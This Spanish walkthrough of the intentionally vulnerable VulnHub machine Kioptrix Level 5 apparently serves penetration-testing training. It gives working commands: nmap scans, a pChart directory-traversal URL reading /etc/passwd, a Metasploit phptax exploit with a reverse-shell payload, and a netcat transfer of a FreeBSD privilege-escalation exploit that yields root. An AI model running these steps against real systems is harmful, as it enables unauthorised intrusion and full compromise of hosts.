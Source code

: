 # Kioptrix Level 5 Walkthrough

# Kioptrix level 5

## Configuración

Para que la maquina asigne una ip hay que eliminar el adaptador de red y volver a añadirlo.

## Resolución
### Escaneo y nalisis de Vulnerabilidades
Comienzo haciendo un escaneo de la red local con arp-scan para descubrir la ip de la maquina objetivo.

```bash
arp-scan -I eth0 --localnet

-I -> indicamos la interfaz de red 
--localnet -> indicamos que genere direcciones desde la configuración de la interfaz.
```

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled.png)

Obtengo que la ip de mi objetivo es la 192.168.66.163, por lo que paso a realizar un escaneo de puertos con nmap.

```bash
nmap -p- --open  -T5 -n -Pn -vvv 192.168.66.163 -oN Target
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-31 15:46 EDT
Initiating ARP Ping Scan at 15:46
Scanning 192.168.66.163 [1 port]
Completed ARP Ping Scan at 15:46, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 15:46
Scanning 192.168.66.163 [65535 ports]
Discovered open port 80/tcp on 192.168.66.163
Discovered open port 8080/tcp on 192.168.66.163
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 9.90% done; ETC: 15:48 (0:01:31 remaining)
Completed SYN Stealth Scan at 15:47, 53.95s elapsed (65535 total ports)
Nmap scan report for 192.168.66.163
Host is up, received arp-response (0.00015s latency).
Scanned at 2023-08-31 15:46:49 EDT for 54s
Not shown: 65532 filtered tcp ports (no-response), 1 closed tcp port (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
80/tcp   open  http       syn-ack ttl 64
8080/tcp open  http-proxy syn-ack ttl 64
MAC Address: 00:0C:29:5B:14:9E (VMware)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 54.25 seconds
           Raw packets sent: 131110 (5.769MB) | Rcvd: 50 (2.410KB)
```

Observo que los puertos 80 y 8080 están abiertos, y paso a realizar un segundo escaneo mas especifico para obtener la versión de los servicios que corren.

```bash
──(root㉿kali)-[/home/kali/vulnhub/OSCP/kioptrix_level_5]
└─# nmap -p80,8080 -sCV 192.168.66.163                        
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-31 15:49 EDT
Nmap scan report for 192.168.66.163
Host is up (0.00040s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
8080/tcp open  http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-title: 403 Forbidden
MAC Address: 00:0C:29:5B:14:9E (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.05 seconds
```

Tras revisar los resultados me fije en que la versión de mod_ssl/2.2.21 es vulnerable pero el exploit para esta vulnerabilidad no contiene una versión valida para FreeBSD apache 2.2.21 por lo que no funciono.

Después pase a revisar la web con el puerto 80.

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%201.png)

Y al abrir el código fuente de la pagina descubrí una dirección url.

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%202.png)

Al abrirla descubrí lo siguiente:

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%203.png)
### Explotación
Buscando lo que es phpchart supe que se trata de una librería de php para mostrar datos de texto de forma grafica.

Después busque si existe alguna vulnerabilidad para esta versión y di con la siguiente pagina.

[Exploiting pChart 2.1.3 (Directory traversal & XSS)](https://vk9-sec.com/exploiting-pchart-2-1-3-directory-traversal-xss/)

Leyendo veo que es vulnerable a directory traversal por lo que introduzco la siguiente dirección y obtengo el fichero /etc/passwd

```bash
http://192.168.66.163/pChart2.1.3/examples/index.php?Action=View&Script=/../../../../etc/passwd
```

Leyendo un poco mas la web descubro que los sistemas operativos FreeBSD tienen el archivo de configuración de Apache en la siguiente ruta por lo que paso a leerla.

```bash
/usr/local/etc/apache22/httpd.conf
```
![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%204.png)

Observando el resultado y tras intentar un log poison sin éxito veo que el fichero de configuración muestra un User-Agent permitido (Mozilla/4.0 Mozilla4 browser) y un virtualHost en el puerto 8080

A través de una extensión del navegador cambio el user agent

[https://addons.mozilla.org/en-US/firefox/addon/user-agent-switcher-revived/](https://addons.mozilla.org/en-US/firefox/addon/user-agent-switcher-revived/)

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%205.png)

Con el user agent cambiado realizo la búsqueda de la web con el puerto 8080 y veo lo siguiente.

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%206.png)

hago clic en phptax y aparece la siguiente pagina.

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%207.png)

Buscando un exploit para phptax encuentro los siguientes

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%208.png)

he decidido usar metasploit por lo que ejecutando la siguiente serie de comandos obtengo una shell.

```bash
#iniciamos metasploit
msfconsole -q
#buscamos el exploit
search phptax
#selecionamos el exploit
use 0
#configuramos
options
set RHOSTS 192.168.66.163
set RPORT 8080
show advanced
set UserAgent Mozilla/4.0 Mozilla4_browser
set payload payload/cmd/unix/reverse
set LHOST 192.168.66.152
set LPORT 4444
run
```
### Escalada de privilegios
Obtenemos una shell y enumeramos.

```bash
whoami
www
id
uid=80(www) gid=80(www) groups=80(www)
uname -a
FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
```

Tras enumerar un poquito el siguiente paso que realice fue buscar si existe algún exploit para la versión de FreeBSD de la maquina.

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%209.png)

Existe un exploit para escalar privilegios por lo que me lo descargo en mi maquina para después transferirlo a la maquina objetivo con netcat.

```bash
searchsploit -m freebsd/local/26368.c
  Exploit: FreeBSD 9.0 < 9.1 - 'mmap/ptrace' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/26368
     Path: /usr/share/exploitdb/exploits/freebsd/local/26368.c
    Codes: CVE-2013-2171, OSVDB-94414
 Verified: True
File Type: C source, ASCII text
Copied to: /home/kali/vulnhub/OSCP/kioptrix_level_5/26368.c
```

Me pongo a la escucha en mi kali y me conecto desde la maquina objetivo para realizar la transferencia en el directorio /tmp.

```bash
#Kali
nc -lvp 4444 < 26368.c                            
listening on [any] 4444 ...

#kioptrix
nc -nv 192.168.66.152 4444 > 26368.c                                                                                                                                                                                                        
Connection to 192.168.66.152 4444 port [tcp/*] succeeded!
```

una vez transferido compilo el exploit y ejecuto obteniendo una shell como root

```bash
gcc 26368.c -o exploit
./exploit
whoami
root
id
uid=0(root) gid=0(wheel) egid=80(www) groups=80(www)
cat congrats.txt
If you are reading this, it means you got root (or cheated).
```


